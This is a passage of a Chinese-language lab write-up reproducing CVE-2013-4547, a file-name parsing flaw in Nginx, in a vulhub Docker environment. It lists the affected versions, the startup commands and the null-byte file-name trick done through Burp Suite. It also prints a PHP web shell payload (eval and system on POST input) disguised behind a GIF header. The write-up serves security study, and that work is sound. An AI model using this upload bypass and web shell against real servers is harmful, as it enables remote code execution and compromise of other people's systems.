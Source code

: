 `shell.gif[空格][0x00].php` ，该文件名以.php结尾会被发送给 PHP 若我们访问的文件名为  FPM 处理，但是 PHP-FPM 在读取文件名时被00截断，导致读取的文件名为shell.gif[空格]，配合 limit_extensions为空即可利用成功。

#### 利用条件 

该漏洞利用条件有两个： 

- `Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7` 
- `security.limit_extensions=空`

#### 漏洞复现

##### 1.启动

```
cd /root/vulhub/nginx/CVE-2013-4547
docker-compose up -d
```

###### 查看端口

```
docker ps -s
```

![image-20240713111455215](https://image.201068.xyz/assets/image-20240713111455215.png)

访问8080端口

http://192.168.70.14:8080

![image-20240713111557700](https://image.201068.xyz/assets/image-20240713111557700.png)

##### 2.上传文件

###### 文件名

```
xxx.php[空格][0x00].php
```

###### 文件内容

```
GIF89a
<?php @eval($_POST["xxx"])?>
<?php system($_POST["cmd"])?>
```

![image-20240713112817026](https://image.201068.xyz/assets/image-20240713112817026.png)

###### burpsuite抓包

文件夹名**添加两个空格**，将第二个空格16进制的`20`改成`00`截断

![image-20240713113006586](https://image.201068.xyz/assets/image-20240713113006586.png)

![image-20240713113041628](https://image.201068.xyz/assets/image-20240713113041628.png)

